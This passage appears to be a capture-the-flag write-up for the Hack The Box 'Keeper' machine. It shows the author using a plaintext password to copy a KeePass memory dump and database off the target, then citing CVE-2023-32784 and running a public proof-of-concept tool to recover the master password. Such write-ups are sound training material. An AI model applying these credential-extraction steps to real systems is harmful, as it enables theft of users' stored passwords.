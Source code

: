 ```bash
lnorgaard@keeper:~$ unzip -l RT30000.zip
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Keeper]
└─$ sshpass -p 'Welcome2023!' scp -o "StrictHostKeyChecking no" lnorgaard@keeper.htb:~/RT30000.zip .
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Keeper]
└─$ mkdir loot && cd loot

┌──(bravosec㉿fsociety)-[~/htb/Keeper/loot]
└─$ unzip ../RT30000.zip
Archive:  ../RT30000.zip
  inflating: KeePassDumpFull.dmp
 extracting: passcodes.kdbx

┌──(bravosec㉿fsociety)-[~/htb/Keeper/loot]
└─$ file passcodes.kdbx
passcodes.kdbx: Keepass password database 2.x KDBX
```

## Extract KeePass database password from memory dump

It's `keepass 2.x` database

Google : `keepass memory dump extract password`

> First Article : https://www.bleepingcomputer.com/news/security/keepass-exploit-helps-retrieve-cleartext-master-password-fix-coming-soon/?__cf_chl_tk=HtubHxEQX7qwKEdzF7qC9Lp7WlNu6JBYoEgR.0wj6ro-1692013200-0-gaNycGzNDVA

> KeePass 2.X Master Password Dumper ([CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784))

> **POC**
> > https://github.com/vdohney/keepass-password-dumper
{: .prompt-info }

```bash
┌──(bravosec㉿fsociety)-[~/htb/Keeper/loot]
└─$ cp KeePassDumpFull.dmp /media/sf_kali-share/tmp/keepass-password-dumper
```

```bash
dotnet run KeePassDumpFull.dmp
```
